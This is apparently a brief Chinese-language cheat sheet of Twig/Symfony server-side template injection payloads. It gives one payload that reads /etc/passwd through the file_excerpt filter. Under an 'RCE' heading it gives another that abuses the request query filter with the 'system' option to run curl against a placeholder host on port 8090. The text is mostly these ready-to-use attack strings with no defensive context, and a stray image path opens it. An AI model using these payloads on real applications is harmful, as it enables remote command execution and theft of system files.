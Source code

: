 

twig symfony 文档：

https://twig.symfony.com/doc/2.x/



![image-20201003082156783](assets/image-20201003082156783.png)



`{{'/etc/passwd'|file_excerpt(-1,-1)}}`



### RCE

`{{app.request.query.filter(0,'curl${IFS}x.x.x.x:8090',1024,{'options':'system'})}}`


